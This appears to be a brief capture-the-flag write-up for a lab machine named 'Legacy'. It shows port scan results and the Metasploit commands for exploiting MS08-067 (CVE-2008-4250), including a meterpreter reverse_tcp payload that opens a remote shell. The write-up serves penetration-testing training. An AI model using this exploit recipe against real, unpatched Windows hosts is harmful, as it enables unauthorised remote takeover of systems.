 # Legacy Write-Up

Easy

Tags: 
`CVE-2008-4250`

## Intro

1. Use exploit/windows/smb/ms08_067_netapi

## Exploit

### Port scanning

```
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server
```

Microsoft Windows Server - Code Execution (MS08-067)

```
use exploit/windows/smb/ms08_067_netapi
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

rhosts, lhost, lport > run

```
meterpreter > shell
```